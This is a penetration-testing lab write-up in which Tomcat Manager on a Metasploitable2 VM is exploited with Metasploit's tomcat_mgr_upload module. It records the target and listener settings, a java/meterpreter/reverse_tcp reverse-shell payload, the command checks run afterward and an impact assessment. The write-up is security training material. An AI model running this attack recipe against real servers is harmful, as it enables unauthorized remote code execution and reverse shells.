




# Exploitation Lab

## Objective
To simulate real-world exploitation against identified high-risk vulnerabilities and validate remote code execution on the target system.

---

## Target
192.168.1.8 (Metasploitable2)

---

## Tools Used
- Metasploit Framework
- Exploit-DB (PoC validation reference)

---

## 1. Service Verification

During the scanning phase, Apache Tomcat service was identified running on port 8180.  
The Tomcat Manager interface was accessible, indicating potential misconfiguration.



---

## 2. Exploitation Methodology

The following Metasploit module was used:  
exploit/multi/http/tomcat_mgr_upload  
Payload configured:


### Target Configuration

- RHOSTS → 192.168.1.8  
- RPORT → 8180  
- TARGETURI → /manager  
- LHOST → 192.168.1.15  
- LPORT → 4444  





---

## 3. Exploitation Result

The exploit was executed successfully, and a Meterpreter session was established.



Command execution was verified using:

- `whoami`
- `id`
- `ls -la`

Observed results:

- whoami → tomcat55  
- id → uid=110(tomcat55)  
- Full directory structure accessible  

This confirms successful remote command execution under the Tomcat service account.

---

## Exploit Log (ASCII Format)
```
+------------+--------------+--------------+---------+------------------------------+
| Exploit ID | Description  | Target IP    | Status  | Payload                      |
+------------+--------------+--------------+---------+------------------------------+
| 003        | Tomcat RCE   | 192.168.1.8  | Success | java/meterpreter/reverse_tcp |
+------------+--------------+--------------+---------+------------------------------+
```
---

## Validation (Exploit-DB Reference Summary)

The Tomcat Manager upload vulnerability allows authenticated users to deploy malicious WAR files, resulting in remote code execution. Public proof-of-concept exploits demonstrate successful shell access via manager credentials. The vulnerability is well-documented and actively exploitable on outdated Tomcat installations without proper access restrictions.

---

## Impact Assessment

Successful exploitation demonstrates:

- Remote Code Execution (RCE)
- Unauthorized command execution
- Exposure of system file structure
- Potential privilege escalation risk

This vulnerability is classified as **Critical** due to complete remote execution capability.

